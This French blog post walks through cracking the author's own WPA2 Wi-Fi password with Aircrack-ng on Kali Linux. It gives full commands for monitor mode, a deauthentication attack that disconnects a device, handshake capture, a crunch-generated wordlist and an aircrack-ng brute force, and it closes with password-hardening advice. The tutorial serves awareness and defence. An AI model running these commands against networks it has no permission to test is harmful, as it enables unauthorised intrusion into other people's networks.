

Afin de tester, j'ai voulu cracker mon [routeur récemment installé](/network/2017/10/11/Installer_bridge_sfr_box-4k.html). Et c'est impressionnant de facilité!

Afin de réaliser le test, j'ai installé [Kali Linux](https://www.kali.org/), une célèbre distribution Linux qui apporte des outils de "hacking" pré-installé.


Je l'ai installé en [dual-boot](https://fr.wikipedia.org/wiki/Multiboot) mais il est aussi possible de l'utiliser en Live USB ou en machine virtuelle avec [VirtualBox](https://www.virtualbox.org/).

## Le principe

Ici nous allons utiliser [Aircrack-ng](https://www.aircrack-ng.org/) qui est est une suite de logiciels open-source utilisée pour surveiller lses réseaux sans fil et "casser" les clés WEP et WPA des réseaux Wi-fi. L'attaque se déroulera en plusieurs phases:

- **Préparation** de votre carte réseau
- **Analyse** du Wi-fi cible
- **Capture** d'un **WPA handshake** _(une connexion au réseau Wi-fi)_ en déconnectant un périphérique sur le Wi-fi
- **Déchiffrement** du mot de passe contenu dans le **WPA handshake** par _bruteforce_

## Préparation

La première étape est d'activer le **mode moniteur** de la carte réseau mettre en place. Pour cela on liste les cartes réseaux disponibles avec `airmong-ng`. Ouvrez un terminal et tapez:

```bash
airmon-ng
```

> Si votre carte réseau ne s'affiche pas, c'est qu'elle n'est pas compatible. Il faut vous en acheter une _(un dongle USB Wi-fi suffit)_

Dans notre cas on voit que l'on peut utiliser notre carte réseau **wlan0**. On active donc le **mode moniteur** avec la commande suivante:

```bash
airmon-ng start wlan0
```

A partir d'ici, la carte réseau **wlan0** n'est plus disponible _(vous n'avez plus internet)_, et une nouvelle carte réseau apparaît. On peut la retrouver en faisant un `ifconfig`. Dans mon cas, il s'agit de **wlan0mon**.

## Analyse

Désormais, on peut _sniffer_ les paquets réseaux qui circulent autour de nous grâce à `airodump`:

```bash
airodump-ng wlan0mon
```

Cette commande va trouver des informations supplémentaires sur les Wi-fi dont:

- le **BSSID**
- le **CH**annel
- l' **AUTH**, le mode d'authentification
- le **ESSID**, le nom du routeur

Parmi toutes les lignes, mon réseau apparaît. Pensez à noter les information car elles nous seront utiles.

```
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 18:D6:C7:85:7E:A0  -45        6        0    0   2  54e  WPA2 CCMP   PSK  TP-LINK_7EA0
```

## Capture d'un WPA handshake

Un **WPA handshake** se déroule lors de la connexion d'un périphérique sur le Wi-fi. Notre but est d'en capturer un afin de récupérer le mot de passe crypté.

- sniffer le Wi-fi et attendre qu'un périphérique se connecte au wi-fi
- sniffer le Wi-fi et provoquer une déconnexion et attendre que l'appareil se reconnecte

Afin de tester, je vais déconnecter mon **Blackberry** déjà connecté dessus.

### Scan du Wi-fi

On scan donc le réseau avec la commande `airodump-ng` et les options:

- `-c` pour spécifier le channel
- `--bssid`, l'identifiant de mon routeur
- `-w` le répertoire ou seront stocké les fichiers d'output

```bash
airodump-ng -c 10 --bssid 18:D6:C7:85:7E:A0 -w tplink  wlan0mon
```

On laisse cette commande en arrière plan, elle va nous produire 3 fichiers dont un de type _xml_. C'est celui qui nous intéresse car il contient plus de détails sur les périphériques connectés sur le wi-fi. En ouvrant celui-ci, on retrouve très facilement les informations de mon Blackberry. Voici un extrait du fichier:

```xml
<client-mac>94:EB:CD:25:E0:C1</client-mac>
<client-manuf>BlackBerry RTS</client-manuf>
```

### La déconnexion

Maintenant que nous avons toutes les informations, nous allons envoyer un packet qui va **demander la déconnection** de mon Blackberry. On utilise `aireplay-ng` avec les paramètres:

- `-0` pour envoyer un signal de dés authentification
- `-a` le BSSID de notre Wi-fi
- `-c` le BSSID de la cible
- la carte réseau utilisée

```bash
aireplay-ng -0 2 -a 18:D6:C7:85:7E:A0 -c 94:EB:CD:25:E0:C1 wlan0mon
```

Le périphérique se déconnecte et se reconnecte automatiquement. On obtient donc un **WPA Handshake** qui est contenu dans le fichier _tplink.cpa_.

## Le déchiffrement

Maintenant que nous avons obtenu un packet contenant le **mot de passe WPA crypté**, il suffit de tester plusieurs combinaisons jusqu'à en trouver un correspondante: on appelle cela un **bruteforce**.

### le dictionnaire

Pour trouver un mot de passe il nous faut... des mots de passe! On peut trouver des [fichiers textes de plusieurs giga-octes des mots de passe les plus utilisés](http://www.wirelesshack.org/wpa-wpa2-word-list-dictionaries.html). Dans mon cas, je sais que le mot de passe de mon Wi-fi contient 8 chiffres. Je vais donc utiliser la commande `crunch` pour générer toutes les combinaisons possibles. `crunch` utilise plusieurs paramètres:

1. la longueur minimum _(8)_
2. la longueur maximum _(8)_
3. les caractères à utiliser _(0123...9)_

On envoie tout ça dans un fichier _passwords.txt_.

```bash
crunch 8 8 12345678 > passwords.txt
```

En quelques secondes on obtiens un fichier de **43046721 lignes** pesant **369 MB**!!!

### Le bruteforce

On passe à l'action. Ici nous allons effectuer bruteforcer le mot de passe. Pour cela nous utilisons `aircrack-ng` qui va crypter les mots de passe un par un et vérifier s'il correspond au mot de passe du paquet réseaux que nous avons capturé (Préparez vous un café car cela peut être long).

Pour cela on utilise `aircrack-ng`

```bash
aircrack-ng -a2 -b 18:D6:C7:85:7E:A0 -w /root/Desktop/passwords.txt /root/Desktop/tplink.cap
```

Et au bout de quelques temps:



## Conclusion

A travers ce petit test on voit qu'il est très facile de "craquer" un Wi-fi avec un mot de passe WPA. Les outils mis à notre disposition sont facile d'accès et aucun matériel spécifique n'est requis. Cependant en appliquant quelques règles simple on peut éviter ce genre de risque.

Rappelez vous, le mot de passe utilisé n'était que de 8 caractères numériques. Le nombre de combinaisons tenais dans un fichier de 380 mo. Si le mot de passe avait inclus des caractères alphabétiques, le dictionnaire aurait dépassé le terra-octet. Le bruteforce aurait certainement duré plusieurs semaines.

En appliquant un mot de passe plus complexe, nous diminuons donc le risque. En le changeant régulièrement, il n'est pas possible de craquer la combinaison assez rapidement.

De plus il est possible d'adapter le signal du wi-fi pour qu'il ne soit pas visible dans tout l'immeuble.

Préférez dès que possible le câble Ethernet qui reste malgré tout la solution la plus sécurisée.
